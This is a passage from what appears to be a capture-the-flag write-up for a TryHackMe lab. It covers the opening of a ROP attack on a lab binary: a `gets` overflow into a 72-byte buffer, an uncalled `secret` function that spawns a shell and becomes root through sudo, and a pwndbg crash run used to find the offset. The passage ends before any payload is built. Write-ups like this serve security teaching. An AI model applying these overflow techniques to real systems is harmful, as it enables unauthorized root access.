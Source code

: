 ### ROP to root

I first loaded the binary into Ghidra to see what it does under the surface. Before I located the `main` function, I ran a quick string search and found the fourth flag. Quick and simple.

{{< figure src="/images/thm/dave/binary-str.png" caption="The oldest trick in any reverse engineering book" alt="Flag found as a string within the binary" >}}

I noticed that the `main` function is using `gets` to read strings from the standard input. If there's anything you should know about `gets`, then it is to never ever use it because it is easily susceptible to malicious inputs. Here, the input is read into a 72-byte long array. This is just begging to have a large input thrown at it.

```c
void main(void)
{
    // code shortened for brevity
    char arg0 [72];

    puts("Welcome to the UID checker!\nEnter 1 to check your UID or enter 2 to check your GID");
    gets(arg0);
    // lots more stuff down here
}
```

Not only that, but there's also a function named `secret` in the binary which is never called. When executed, it pops a shell, and since I can prepend `sudo` on the command line, it'll be a root shell. So the goal is clear: craft some malicious input to somehow get a root shell.

I then ran the binary using GDB. The outputs are quite large since I'm using [pwndgb](https://github.com/pwndbg/pwndbg) which outputs a lot of extra info. I shortened some snippets you're about to see. First off, I had to find out just how much input I need to be able to write values onto the call stack.

```text
pwndbg> r < <(cyclic 100)
Starting program: /home/kali/THM/dave/uid_checker < <(cyclic 100)
Welcome to the UID checker!               
Enter 1 to check your UID or enter 2 to check your GID
Invalid choice

Program received signal SIGSEGV, Segmentation fault.
0x000000000040079d in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────
 RAX  0xf
 RBX  0x0
 RCX  0x7ffff7eddff3 (write+19) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7ffff7fb0670 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x6022a0 ◂— 'Invalid choice\nk your UID or enter 2 to check your GID\n'
 R8   0xf
 R9   0x7ffff7f2e9d0 (__memcpy_ssse3+9680) ◂— mov    rcx, qword ptr [rsi - 0xe]
 R10  0xfffffffffffff40c
 R11  0x246
 R12  0x4005c0 (_start) ◂— xor    ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x6161617661616175 ('uaaavaaa')
 RSP  0x7fffffffdf38 ◂— 'waaaxaaayaaa'
 RIP  0x40079d (main+215) ◂— ret
```
